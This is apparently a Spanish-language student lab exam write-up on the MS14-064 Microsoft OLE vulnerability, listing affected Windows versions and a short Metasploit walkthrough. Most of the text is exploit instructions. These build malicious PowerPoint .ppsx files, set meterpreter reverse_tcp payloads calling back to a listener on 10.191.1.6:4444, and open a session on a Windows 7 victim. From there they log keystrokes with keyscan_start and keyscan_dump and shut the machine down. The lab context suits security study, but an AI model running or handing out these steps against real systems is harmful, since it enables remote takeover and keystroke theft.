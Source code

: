 # Parcial Ciber 
Vulnerabilidad MS14-064 Miscrosoft OLE: Estas vulnerabilidades podría permitir la ejecución remota de código si un usuario visita una página web especialmente diseñada con Internet Explorer. Un atacante que explotó con éxito las vulnerabilidades podría ejecutar código arbitrario en el contexto del usuario actual. Si el usuario actual ha iniciado sesión con derechos de usuario administrativos, un atacante podría instalar programas; ver, cambiar, o eliminar datos; o crear nuevas cuentas con plenos derechos de usuario. Los clientes cuyas cuentas están configuradas para tener menos derechos de usuario en el sistema podrían verse menos afectados que los usuarios que operan con derechos de usuario administrativos.

Sistema operativo: Microsoft Windows

Software:
Windows server 
Windows vista
Windows 8
Windows 8.1
Windows RT
Windows RT 8.1

Link del video: https://www.dropbox.com/s/a9lr9ooxpz7438r/Parcial.wmv?dl=0
Captura del trafico por wireshark: Fotos Añadidas

Instructivo para hacer el exploit:
msfconsole
use exploit/windows/fileformat/ms14_064_packager_run_as_admin

show options

set FILENAME MS14-064.ppsx

set LHOST 10.191.1.6

set LPORT 4444

set PAYLOAD windows/meterpreter/reverse_tcp

show options

exploit

use exploit/windows/fileformat/ms14_064_packager_python

show options

set FILENAME MS14-064_py.ppsx

set LHOST 10.191.1.6

set LPORT 4444

show options

exploit 
use exploit/multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 10.191.1.6

set LPORT 4444

show options

exploit -j

ir a window 7 y abrir el archivo MS14-064.ppsx

set PAYLOAD python/meterpreter/reverse_tcp

rexploit -j

ir a window 7 y ejecutar archivo MS14-064_py.ppsx
En kali: ejecutar sessions
Mirar las sesiones activas
sessions -i 1 (id de la sesion) // Para iniciar la interaccion 
keyscan_start
keyscan_dump
shutdown





